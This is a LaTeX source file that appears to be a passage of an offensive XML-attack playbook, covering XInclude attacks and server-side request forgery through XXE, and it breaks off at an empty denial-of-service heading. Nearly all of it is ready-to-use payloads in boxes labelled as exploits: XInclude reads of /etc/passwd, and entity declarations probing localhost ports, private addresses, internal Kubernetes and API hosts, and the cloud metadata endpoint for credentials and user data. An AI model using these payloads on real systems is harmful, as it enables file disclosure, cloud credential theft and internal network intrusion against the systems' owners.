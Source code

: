 \documentclass{article}
\begin{document}
\section{Phase 6: XInclude Attacks}

Use XInclude when you cannot control the full XML document but control a single data value.

\begin{exploitbox}
\begin{lstlisting}[language=XML]
<root xmlns:xi="http://www.w3.org/2001/XInclude">
    <data>
        <xi:include parse="text" href="file:///etc/passwd"/>
    </data>
</root>
\end{lstlisting}
\end{exploitbox}

\begin{exploitbox}
\begin{lstlisting}[language=XML]
<root xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="http://internal-server/admin"/>
</root>
\end{lstlisting}
\end{exploitbox}

\section{Phase 7: SSRF via XXE}

Use XXE to probe internal networks and services.

\begin{exploitbox}
\begin{lstlisting}[language=XML]
<!-- Localhost scanning -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:22">
<!ENTITY xxe SYSTEM "http://localhost:8080/admin">
<!ENTITY xxe SYSTEM "http://127.0.0.1:3306">

<!-- Internal network scanning -->
<!ENTITY xxe SYSTEM "http://10.0.0.1:80">
<!ENTITY xxe SYSTEM "http://192.168.1.1:443">

<!-- Cloud metadata -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/user-data/">

<!-- Internal services -->
<!ENTITY xxe SYSTEM "http://internal-api.company.com/health">
<!ENTITY xxe SYSTEM "http://kubernetes.default.svc.cluster.local">
\end{lstlisting}
\end{exploitbox}

\section{Phase 8: Denial of Service (DoS)}
\end{document}
